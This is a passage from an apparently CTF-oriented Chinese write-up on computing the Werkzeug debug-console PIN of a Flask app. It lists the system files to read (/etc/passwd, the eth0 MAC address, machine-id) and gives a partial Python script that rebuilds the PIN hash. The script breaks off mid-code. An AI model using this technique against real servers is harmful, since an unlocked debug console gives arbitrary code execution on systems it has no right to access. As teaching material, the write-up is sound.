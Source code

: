 ### 教训：有时候是单文件1内容，有时候是文件1或者文件2和文件3拼接，网上也有说单文件3的。建议都试试，反正一共四种。

获取了这六个参数之后，我们就可以在本地使用脚本计算PIN。注意计算过程和werkzeug的版本有关，1.0.x使用md5，2.0.x及以上（一般是python3.8及以上）使用sha1。我们在自己写的flask程序的`app = Flask(__name__)`处打上断点，步入app.py中，搜索werkzeug：

![image-20250909110008627](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250909110008627.png)

ctrl+左键查看run_simple,在它下面找到了debug开启时的动作(PIN码要开debug模式)：

![image-20250909110242440](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250909110242440.png)

查看DebuggedApplication，在它上方就看到了PIN码计算过程：

![image-20250909110343682](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250909110343682.png)

我们整理一下，脚本如下：

```python
import hashlib
from itertools import chain

# 可能是公开的信息部分
probably_public_bits = [
    'root',  # /etc/passwd
    'flask.app',  # 默认值
    'Flask',  # 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # moddir，报错得到
]

# 私有信息部分
private_bits = [
    '2485377568585',  # /sys/class/net/eth0/address 十进制
    '653dc458-4634-42b1-9a7a-b22a082e1fce898ba65fb61b89725c91a48c418b81bf98bd269b6f97002c3d8f69da8594d2d2'
    # machine-id部分
]

# 创建哈希对象，低版本用md5()
h = hashlib.sha1()

# 迭代可能公开和私有的信息进行哈希计算
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)

# 加盐处理
h.update(b'cookiesalt')

# 生成 cookie 名称
cookie_name = '__wzd' + h.hexdigest()[:20]
print(cookie_name)

# 生成 pin 码
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

# 格式化 pin 码
rv = None
if rv is None:
```